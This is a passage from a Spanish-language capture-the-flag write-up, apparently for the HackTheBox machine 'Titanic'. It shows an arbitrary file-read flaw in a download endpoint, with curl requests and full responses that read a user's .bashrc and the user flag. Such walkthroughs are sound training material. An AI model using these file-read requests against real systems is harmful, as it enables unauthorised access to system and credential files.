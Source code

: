 ¡Es vulnerable a lectura arbitraria de archivos!

En el archivo `passwd` podremos ver que hay un usuario llamado `developer` en el sistema. Si intentamos leer su `.bashrc` veremos que tenemos permisos de lectura en su directorio:

```bash
❯ curl -v "http://titanic.htb/download?ticket=/home/developer/.bashrc"
* Host titanic.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.10.11.55
*   Trying 10.10.11.55:80...
* Connected to titanic.htb (10.10.11.55) port 80
* using HTTP/1.x
> GET /download?ticket=/home/developer/.bashrc HTTP/1.1
> Host: titanic.htb
> User-Agent: curl/8.13.0
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 200 OK
< Date: Thu, 19 Jun 2025 19:35:20 GMT
< Server: Werkzeug/3.0.3 Python/3.10.12
< Content-Disposition: attachment; filename="/home/developer/.bashrc"
< Content-Type: application/octet-stream
< Content-Length: 3771
< Last-Modified: Thu, 06 Jan 2022 16:23:33 GMT
< Cache-Control: no-cache
< ETag: "1641486213.0-3771-1706690718"
< 
# ~/.bashrc: executed by bash(1) for non-login shells.
# see /usr/share/doc/bash/examples/startup-files (in the package bash-doc)
# for examples
... [snip]
```

y también podremos leer la primera flag de a primeras, a secas.

```bash
❯ curl -v "http://titanic.htb/download?ticket=/home/developer/user.txt"
* Host titanic.htb:80 was resolved.
* IPv6: (none)
* IPv4: 10.10.11.55
*   Trying 10.10.11.55:80...
* Connected to titanic.htb (10.10.11.55) port 80
* using HTTP/1.x
> GET /download?ticket=/home/developer/user.txt HTTP/1.1
> Host: titanic.htb
> User-Agent: curl/8.13.0
> Accept: */*
> 
* Request completely sent off
< HTTP/1.1 200 OK
< Date: Thu, 19 Jun 2025 19:35:35 GMT
< Server: Werkzeug/3.0.3 Python/3.10.12
< Content-Disposition: attachment; filename="/home/developer/user.txt"
< Content-Type: text/plain; charset=utf-8
< Content-Length: 33
< Last-Modified: Thu, 19 Jun 2025 18:20:04 GMT
< Cache-Control: no-cache
< ETag: "1750357204.235959-33-1893075274"
< 
ad75b9839ff59fb34787ffdc28******
```
